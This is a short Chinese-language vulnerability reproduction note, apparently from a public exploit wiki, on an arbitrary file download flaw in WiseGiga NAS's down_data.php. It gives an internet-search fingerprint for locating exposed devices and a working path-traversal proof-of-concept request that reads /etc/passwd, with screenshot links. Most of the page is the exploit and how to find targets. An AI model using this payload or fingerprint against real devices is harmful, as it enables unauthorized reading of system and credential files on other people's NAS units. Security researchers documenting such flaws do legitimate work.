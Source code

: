 # WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>WiseGiga NAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WISEGIGA-NAS"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626184843953.png)

验证POC

```php
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1656240238984-898fa7ef-186c-4376-8a6f-61ab19fa2d0d-20220626184848871.png)